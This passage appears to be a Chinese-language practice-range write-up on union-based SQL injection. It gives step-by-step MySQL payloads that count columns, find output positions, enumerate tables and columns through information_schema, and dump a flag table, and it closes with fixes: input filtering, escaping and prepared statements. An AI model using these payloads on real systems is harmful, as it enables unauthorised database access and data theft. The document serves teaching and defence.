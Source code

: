    ```mysql
   and 1=1 order by 3 #由于输入order by 4后会出现报错，得知该表只有三个字段
   ```

   

   ![3.png](https://i.loli.net/2020/11/02/35f8bwO14qBeUKG.png)

3. 判断显示位置，找出输出点  

   ```mysql
   and 1=2 union select 1,2,3
   ```

   ![4.png](https://i.loli.net/2020/11/02/QsIMHqFKLk8Scgx.png)

4. 找出输出位后通过系统自建表`Information_schema.tables`查询表名

   ```mysql
   union select 1,2,table_name from information_schema.tables where table_schema=database()
   union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1
   ```


   ![5.png](https://i.loli.net/2020/11/02/qB2fLpOoUINZ8FE.png)
   					   

5. 找到需要的表名后同样通过字段名表`Information_schema.columns`查询字段名 

   ```mysql
   union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name='error_flag'
   union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name='error_flag' limit 1,1
   ```

   ![6.png](https://i.loli.net/2020/11/02/Bdsr2xNVFfQKUnb.png)

6. 根据字段名查出靶场flag 

   ```mysql
   union select 1,2,flag from error_flag
   union select 1,2,flag from error_flag limit 1,1
   ```

   ![7.png](https://i.loli.net/2020/11/02/Fx2PsaQbdf7ptL5.png)


## 0x03 修复方法

### 0b001 敏感字符过滤、转义

使用敏感字符过滤的方法对用户提交信息进行检查，过滤敏感的关键词，如and or union order  -- 或特殊符号等。或是通过某种转码格式进行**编码转换**，使用户输入统一作为字符串传参。

### 0b010 SQL语句预编译和绑定变量

不将用户提交的内容直接嵌入到数据库执行命令的语句中， 而是通过传入数据库前**参数进行传递**，能有效地防御SQL注入。或是**比较**用户**输入提交前后动态SQL语句的语法结构是否一致**来检测SQL注入攻击。
